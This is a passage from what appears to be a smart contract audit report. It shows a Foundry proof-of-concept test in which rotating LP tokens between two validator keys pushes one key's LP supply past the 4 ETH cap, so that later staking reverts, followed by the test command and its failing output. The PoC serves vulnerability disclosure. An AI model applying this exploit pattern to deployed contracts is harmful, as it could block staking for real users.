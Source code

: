 ```solidity

	// active two keys
	MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 1);
	MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyTwo, 1);

	// deposit 4 ETH for public key one and public key two
	StakingFundsVault stakingFundsVault = manager.stakingFundsVault();
	stakingFundsVault.depositETHForStaking{value: 4 ether}(blsPubKeyOne, 4 ether);
	stakingFundsVault.depositETHForStaking{value: 4 ether}(blsPubKeyTwo, 4 ether);

	// to bypass the error: "Liquidity is still fresh"
	vm.warp(1 days);

	// rotate staking amount from public key one to public key two
	// LP total supply for public key two exceed 4 ETHER
	LPToken LPTokenForPubKeyOne = manager.stakingFundsVault().lpTokenForKnot(blsPubKeyOne);
	LPToken LPTokenForPubKeyTwo = manager.stakingFundsVault().lpTokenForKnot(blsPubKeyTwo);
	stakingFundsVault.rotateLPTokens(LPTokenForPubKeyOne, LPTokenForPubKeyTwo, 4 ether);

	uint256 totalSupply = LPTokenForPubKeyTwo.totalSupply();
	console.log("total supply of the Staking fund LP exists 4 ETHER.");
	console.log(totalSupply);

	// calling TestUtils.sol#stakeSingleBlsPubKey, revert
	stakeSingleBlsPubKey(blsPubKeyTwo);

}
```

We run the POC:

```solidity
forge test -vv --match test_rotateLP_Exceed_maxStakingAmountPerValidator_POC
```

the output is:

```solidity
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[FAIL. Reason: DAO staking funds vault balance must be at least 4 ether] test_rotateLP_Exceed_maxStakingAmountPerValidator_POC() (gas: 1510454)
Logs:
  total supply of the Staking fund LP exists 4 ETHER.
  8000000000000000000

Test result: FAILED. 0 passed; 1 failed; finished in 15.73ms

Failing tests:
Encountered 1 failing test in test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[FAIL. Reason: DAO staking funds vault balance must be at least 4 ether] test_rotateLP_Exceed_maxStakingAmountPerValidator_POC() (gas: 1510454)
```

the total supply of the LP exceeds 4 ETH and the transaction precisely reverts in:
